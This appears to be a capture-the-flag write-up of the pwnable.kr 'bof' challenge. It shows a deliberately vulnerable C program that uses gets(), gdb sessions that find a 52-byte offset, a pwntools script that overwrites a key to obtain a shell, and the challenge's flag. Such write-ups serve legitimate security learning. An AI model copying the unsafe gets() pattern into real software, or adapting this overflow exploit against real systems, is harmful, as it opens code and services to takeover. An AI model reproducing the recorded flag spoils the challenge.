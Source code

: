 # pwnable.kr bof writeup (5 pt)

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

So it gives us the vulnerable binary & the source code. Also the binary is running at `pwnable.kr 9000`.

Let's start!

# 0x01 Binary Enumeration

Let's download the files first.

```bash
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof
[root@pwn4magic]:~/Desktop/bof# wget -q http://pwnable.kr/bin/bof.c
[root@pwn4magic]:~/Desktop/bof# ls 
bof  bof.c
```

Cool, now let's enumerate the binary.

```bash
[root@pwn4magic]:~/Desktop/bof# file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

32bit binary cool, let's run the binary now & try to crash it.

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x bof
[root@pwn4magic]:~/Desktop/bof# ./bof
overflow me : 
1337
Nah..
[root@pwn4magic]:~/Desktop/bof# python -c 'print "A" * 100' | ./bof
overflow me : 
Nah..
*** stack smashing detected ***: <unknown> terminated
Aborted
```

Alright, now let's check the source code.

`bof.c`

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

So we have 2 functions, function `func` & function `main`. We need to focus on function `func`. 

We have a buffer there `char overflowme[32];` 32bytes and it tells us if `key == 0xcafebabe` will gives us shell.

Let's find the offset now.

# Exploitation

Let's fire up PEDA!

```bash
[root@pwn4magic]:~/Desktop/bof# gdb -q bof
Reading symbols from bof...
(No debugging symbols found in bof)
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x00000474  _init
0x000004c0  gets@plt
0x000004d0  __stack_chk_fail@plt
0x000004e0  __cxa_finalize@plt
0x000004f0  puts@plt
0x00000500  system@plt
0x00000510  __gmon_start__@plt
0x00000520  __libc_start_main@plt
0x00000530  _start
0x00000570  __do_global_dtors_aux
0x000005f0  frame_dummy
0x00000627  __i686.get_pc_thunk.bx
0x0000062c  func
0x0000068a  main
0x000006b0  __libc_csu_init
0x00000720  __libc_csu_fini
0x00000730  __do_global_ctors_aux
0x00000768  _fini
gdb-peda$ 
```

We can see the functions there `func` & `main`. Let's disassemble func.

```assembly
gdb-peda$ disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:    call   0x56555645 <func+25>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0x56555650 <func+36>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:    call   0x56555665 <func+57>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:    call   0x56555673 <func+71>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0x56555684 <func+88>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
gdb-peda$ 
```

Let's set a breakpoint at `cmp` instruction. Then we will generate a 100bytes pattern.

```bash
gdb-peda$ break *0x56555654
Breakpoint 1 at 0x56555654
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ 
```

Now we will run the binary and input the 100bytes.

```bash
gdb-peda$ r
Starting program: /root/Desktop/bof/bof 
overflow me : 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
EAX: 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0xf7fad5c0 --> 0xfbad2288 
EDX: 0xf7faf01c --> 0x0 
ESI: 0xf7fad000 --> 0x1d6d6c 
EDI: 0xf7fad000 --> 0x1d6d6c 
EBP: 0xffffd1c8 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd180 --> 0xffffd19c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x56555654 (<func+40>:     cmp    DWORD PTR [ebp+0x8],0xcafebabe)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```

Let's display the memory contents of `ebp+0x8` at EIP register & find the offset.

```bash
gdb-peda$ x/s $ebp+0x8
0xffffd1d0:     "AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"
gdb-peda$ pattern offset AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL found at offset: 52
gdb-peda$ 
```

Perfect time to build our exploit.

`exploit.py PoC`

```python
#!/usr/bin/env python
from pwn import *

sock = remote('pwnable.kr', 9000)
payload = "A" * 52 + p32(0xcafebabe)
sock.sendline(payload)
sock.interactive()
```

Let's fire it up!

```bash
[root@pwn4magic]:~/Desktop/bof# chmod +x exploit.py 
[root@pwn4magic]:~/Desktop/bof# ./exploit.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
$  
```

Flag : `daddy, I just pwned a buFFer :)`

-pwn4magic

